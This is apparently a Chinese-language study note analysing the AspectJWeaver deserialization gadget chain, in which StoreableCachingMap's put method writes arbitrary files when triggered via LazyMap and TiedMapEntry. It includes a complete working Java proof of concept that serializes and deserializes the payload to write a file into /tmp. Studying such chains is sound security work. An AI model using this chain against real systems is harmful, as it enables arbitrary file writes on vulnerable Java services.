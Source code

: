 # AspectJWeaver反序列化

## 笔者环境

并不是说只能用这个环境只是学习原理，随便找了个版本能用

```java
aspectjweaver : 1.8.6
commons-collections : 3.2.2
```



## 触发利用分析

​	首先可以看到在 `org.aspectj.weaver.tools.cache.SimpleCache` 类中有一个内部类 `StoreableCachingMap`，同时他继承了`HashMap`这里比较重要

可以看到他的`put`方法当中的`writeToPath`能触发任意文件的写入![](img/1.png)

可以看到他的`put`方法当中的`writeToPath`能触发任意文件的写入![](img/2.png)

那有什么办法可以触发其文件写呢，也就是如何触发put方法呢，ysoserial 此链中最终选择了`LazyMap`![](img/3.png)

那么触发`LazyMap#get`就更简单了，这里ysoserial选择通过`TiedMapEntry` 的 `hashCode` 进一步触发

那么触发利用就很方便啦



## 利用链构造

```java
package marshalsec;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.nio.charset.StandardCharsets;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class AspectJWeaver {

    public static void main(String[] args) throws Exception {

        String fileName    = "y4.txt";
        String filePath    = "/tmp";
        String Content = "test AspectJWeaver";


        Class c = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor<?> constructor = c.getDeclaredConstructor(String.class, int.class);
        constructor.setAccessible(true);
        Map map = (Map) constructor.newInstance(filePath, 10000);


        Transformer transformer = new ConstantTransformer(Content.getBytes(StandardCharsets.UTF_8));


        Map   lazyMap = LazyMap.decorate(map, transformer);
        TiedMapEntry entry   = new TiedMapEntry(lazyMap, fileName);

        HashSet<Object> hs = new HashSet<>();
        hs.add(entry);


        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hs);

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
        objectInputStream.readObject();
    }

}
```

## 结果

![](img/4.png)
